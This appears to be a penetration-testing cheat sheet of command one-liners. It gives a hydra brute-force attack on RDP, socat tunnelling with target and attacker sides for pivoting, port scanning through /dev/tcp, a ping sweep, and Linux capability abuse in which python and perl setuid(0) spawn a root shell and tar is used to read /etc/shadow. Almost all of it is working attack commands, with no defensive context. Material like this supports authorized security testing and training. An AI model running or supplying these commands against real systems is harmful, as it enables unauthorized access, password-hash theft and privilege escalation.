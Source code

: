 	Brute Force RDP:

		hydra -V -F -L lista -P lista rdp://172.16.1.188

	Python FTP Server:

		python -m pyftpdlib -p 21 -w

	Python HTTP Server:

		python -m SimpleHTTPServer 80

	Tunneling  - Socat:

		Target:
			
			./socat TCP4:172.20.1.12:8443 TCP4:0.0.0.0:222

		Attacker:
		
			socat TCP4-LISTEN:8443,reuseaddr,fork TCP4-LISTEN:222,reuseaddr

	Portscan without NMAP:

		for port in {1..65535}; do 2> /dev/null echo >/dev/tcp/172.19.0.2/$port && echo "port $port open"; done

	Ping Sweep without NMAP (slow):

		for i in $(seq 1 255); do echo $(ping -c 1 172.17.0.$i) | grep "64 bytes" | cut -d " " -f 2; done
	
	Exploiting capabilities for Privilege Escalation:
	
		Python:

			./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

		Perl:

			./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

		Tar:

			cp /bin/tar /home/demo/
			setcap cap_dac_read_search+ep /home/demo/tar
			./tar cvf shadow.tar /etc/shadow
			ls
			./tar -xvf shadow.tar
			tail -8 etc/shadow
